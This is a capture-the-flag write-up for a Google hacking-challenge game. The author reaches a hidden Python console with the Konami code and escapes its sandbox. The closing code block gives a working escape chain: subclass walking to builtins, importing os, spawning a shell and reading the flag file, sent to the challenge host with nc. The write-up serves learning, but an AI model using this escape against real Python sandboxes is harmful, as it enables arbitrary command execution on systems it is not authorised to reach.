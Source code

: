 So, I played it.

In the dungeon you will find several geo coordinates, with some info like "pass-phrases" or codes. These are not useful for this challenge, but are related to a real-world treasure hunt.

Once you finish the game, you get an additional hint about an "cheat code used long time ago"…

My favourite cheat code is IDDQD, but unfortunately, it wasn't this one 🙂 Instead the hint referred to another legendary cheat: the [Konami Code](https://en.wikipedia.org/wiki/Konami_Code):

> UP, UP, DOWN, DOWN, LEFT, RIGHT, LEFT, RIGHT, B, A

Using this code in the game (after pressing enter) you are presented with a prompt and a sort of console

```python
\ help                                                \
\ name 'help' is not defined                          \
\                                                     \
[...]
\                                                     \
\                                                     \
#######################################################
 >>> [Enter - continue, r - return to game]
```

Soon enough, I realized that this thing accepted *some* Python command:

```python
\ print('dguerri')                                    \
\ dguerri                                             \
\
```

Notably, `import` doesn't work. So, we cannot, for instance, execute system commands (e.g., `import os` + `os.system("sh")`).

Being a sort of sandbox, we need to escape it and find the flag. Knowing that sandboxing Python is basically impossible, I had high hope for this lead.

Searching the Internet, I found this great write-up: [The Craziest Python Sandbox Escape](https://www.reelix.za.net/2021/04/the-craziest-python-sandbox-escape.html).

This article contains everything we need, but we can't use the proposed exploit as it is because:

- we have a limit on the length of each line of code we can input in this "shell";
- we don't need to use creativity to "compose" any strings;
- our sandbox doesn't appear to have any persistence, besides the `config` object used by the game.

After few iterations, also after 1 hour spent on printing available methods and attributes in `config`, I came up with this exploit. The first part just activates the shell entering the cheat code, while the second part escapes the sandbox:

```python
❯ echo -e '..wwssadadba
config.logger = str.__base__.__subclasses__()[84]()\n
config.logger = config.logger.load_module("builtins")\n
config.logger = config.logger.__import__("os")\n
config.logger.system("sh")\n
pwd\nwhich cat\ncat ./flag\n' | nc shell-sprinter.h4ck.ctfcompetition.com 1337
\\ @_shell ]=~~-#######################################
\                                                     \
[...]
\                                                     \
#######################################################
 >>> config.logger.system("sh")/home/user
/usr/bin/cat
https://h4ck1ng.google/solve/**REDACTED**
```
